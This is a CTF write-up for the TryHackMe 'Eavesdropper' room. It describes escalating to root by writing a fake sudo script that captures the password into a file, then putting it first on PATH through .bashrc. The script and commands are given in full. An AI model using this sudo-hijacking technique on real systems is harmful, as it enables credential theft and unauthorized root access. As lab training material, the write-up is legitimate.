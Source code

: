 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          THM
# CTF NAME          Eavesdropper
# DESCRIPTION       Listen closely, you might hear a password!
# DIFFICULTY        Medium 
# CTF LINK          https://tryhackme.com/r/room/eavesdropper 
```

```bash
Hello again, hacker. After uncovering a user Frank's SSH private key, you've broken into a target environment.
You have access under `frank`, but you want to be `root`! How can you escalate privileges? If you listen closely, maybe you can uncover something that might help!
```

- I tried doing some manual enumaration looking for potential escalation paths. 
- I've discovered two listening ports, `35431` and `42240` and I've tunneled them to my box to try and access them. 

- However, both of them appeared as `tcpwrapped` after a nmap scan and I could not retrieve any information from them.

- So I used `pspy` to see what's going on in the background.

```
UID=0     PID=4624   | sudo cat /etc/shadow
```

- So the user `root` is using the `sudo cat /etc/shadow` command. It should NOT use `sudo` because it's already root, but since this is misconfigured we can hijack the sudo binary and see what's the password.

- In order to do that, I've created a new `sudo` file with the following content

```bash
#!/bin/bash

read -p 'givemeyourpassword: ' passs
echo $passs > /home/frank/a.txt
```

- Do a `chmod +x` on this new `sudo` file after you create it.

```
-rwxrwxr-x 1 frank frank      63 Jul 23 11:12 sudo
```

- However, we need to alter the $PATH variable in order to point to this `sudo` binary and not the usual `/usr/bin/sudo` binary.

- To do this, use

```
export PATH=/home/frank:$PATH
```

- And, if needed, you can add the same line to the top of `.bashrc` file. 
- Use `source .bashrc` to reload the file (assuming you're already in /home/frank). 

- After a short while, the `a.txt` file should containt a password. That's the root password. 

- The only remaining thing is to read the flag from `/root/flag.txt`.